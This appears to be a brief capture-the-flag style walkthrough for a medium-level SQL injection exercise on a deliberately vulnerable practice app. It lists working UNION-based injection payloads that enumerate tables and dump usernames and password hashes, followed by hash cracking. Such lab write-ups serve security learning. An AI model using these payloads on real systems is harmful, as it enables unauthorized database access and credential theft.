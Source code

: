 ## SQL injection Medium
0. Go to elements and change option value. Use brower inspect-element to modify HTTP.
 - Headers: HTTP POST request
 - Payload: Formdata
 - Cookies: PHPSESSION, security level

1. Get  Error
`SELECT first_name, last_name FROM users WHERE user_id = '''`

2. Get the number of columns
`1' order by 2` -> Error since '1' is a string
`1 order by 2` -> Work because 1 is a number

3. Get columns from user table
`1 UNION SELECT column_name, table_name FROM information_schema.tables#`

4. Get id & pwd
`1 UNION SELECT user, password FROM users#`

5. Crack the password
crackstation


